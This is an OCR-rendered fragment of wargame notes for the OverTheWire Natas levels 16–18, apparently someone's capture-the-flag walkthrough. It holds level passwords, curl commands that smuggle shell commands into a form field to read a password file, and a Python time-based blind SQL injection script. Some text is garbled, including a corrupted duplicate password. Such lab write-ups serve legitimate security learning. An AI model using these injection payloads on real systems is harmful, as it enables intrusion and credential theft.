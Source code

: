 16 WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

    curl -o/dev/null -su natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh -F 'needle=$(cat /etc/natas_webpass/natas17 > /tmp/natas17)' http://natas16.natas.labs.overthewire.org
    curl -su natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl -F 'needle=;cat /tmp/natas17 #' -F submit=1 http://natas9.natas.labs.overthewire.org

17 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

18 xvKIqDny4OPv7wCRgDlmj0pFsCsGjthP

```python

    import requests  
    url = 'http://natas17.natas.labs.overthewire.org/index.php'  
    username= 'natas17'  
    password= '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'  
    key = ""  
    ttl = 2  
    
    for pos in range(1,34):  
        low = 32  
        high = 126  
        mid = (high+low)>>1  
        
        while mid<high:  
            print(low,mid,high)
            payload= "natas18\" and if(%d<ascii(mid(password,%d,1)),sleep(%d),1) and \"\" like \"" %  (mid, pos,ttl+1)  
            try:  
                req = requests.post(url, auth = requests.auth.HTTPBasicAuth(username,password),data={"username":payload},timeout = ttl)  
                
            except requests.exceptions.Timeout,e:  
                low=mid+1  
                mid = (high+low)>>1  
                continue  
    
            high=mid  
            mid = (high+low)>>1  
    
        key+=chr(mid)  
        print(key)

    print(key)

```

xvKIqDny4OPv7wCRgDlmj0pFsCsGjthP

xvKIqDty4OPv7wCRgDttt0pFsCsDjhdP

## leviathan
